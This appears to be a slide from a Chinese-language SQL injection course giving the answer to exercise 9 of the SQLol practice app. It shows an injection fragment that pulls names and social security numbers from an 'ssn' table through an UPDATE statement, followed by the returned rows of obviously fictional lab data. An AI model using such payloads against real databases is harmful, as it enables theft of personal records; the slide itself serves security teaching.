

# SQL注入实例 – SQLol（9）答案
修改update语句
concat(name,':',ssn) from ssn #
Array ( [concat(name,':',ssn)] => Wengdack Slobdegoob:000-00-1112 ) 
Array ( [concat(name,':',ssn)] => Herp Derper:012-34-5678 ) 
Array ( [concat(name,':',ssn)] => Peter Weiner:111-22-3333 ) 
Array ( [concat(name,':',ssn)] => Chunk MacRunfast:666-67-6776 ) 
Array ( [concat(name,':',ssn)] => SlapdeBack LovedeFace:999-99-9999 )